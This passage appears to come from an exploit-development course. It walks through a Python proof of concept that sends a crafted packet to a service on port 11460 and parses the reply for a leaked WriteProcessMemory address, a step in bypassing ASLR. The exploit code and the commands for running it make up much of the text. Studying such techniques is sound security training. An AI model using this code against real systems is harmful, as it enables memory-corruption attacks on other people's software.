         server = sys.argv[1]
        port = 11460

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((server, port))

        s.send(buf)

        response = s.recv(1024)
        print(response)

        s.close()

        print("[+] Packet sent")
        sys.exit(0)

Listing 30 shows that the proof of concept will print any data received through the recv method to the console.

To confirm our hypothesis, we'll remove all the breakpoints in WinDbg, let the execution continue, and run the updated proof of concept.
	python3 poc.py 192.168.120.10
	


Listing 31 shows that we have received the output from FXCLI_DebugDispatch, which includes the address for WriteProcessMemory. At this point we have implemented a rudimentary ASLR bypass. Excellent!

Finally, we'll filter the data to only print the address. We can do this by searching for the string "Address is:", as shown in Listing 32.
def parseResponse(response):
    """ Parse a server response and extract the leaked address """
    pattern = b"Address is:"
    address = None
    for line in response.split(b"\n"):
       if line.find(pattern) != -1:
          address = int((line.split(pattern)[-1].strip()),16)
    if not address:
       print("[-] Could not find the address in the Response")
       sys.exit()
    return address

To make the code more readable and modular, we placed the parsing code inside a separate function called parseResponse.

Inside this method, we locate the address by splitting the response by newlines and searching for the "Address is:" string.

Once the string is found, our code extracts the address and converts it to hexadecimal.

Finally, we'll call parseResponse from the main method, supply the response packet as an argument, and print the results to the console.
	python3 poc.py 192.168.120.10
	


Occasionally, when running our proof of concept, we fail to resolve the address of WriteProcessMemory. This is why the parseResponse method checks for a populated address variable. If our proof of concept fails, as it does in Listing 34, we can rerun it until it succeeds.
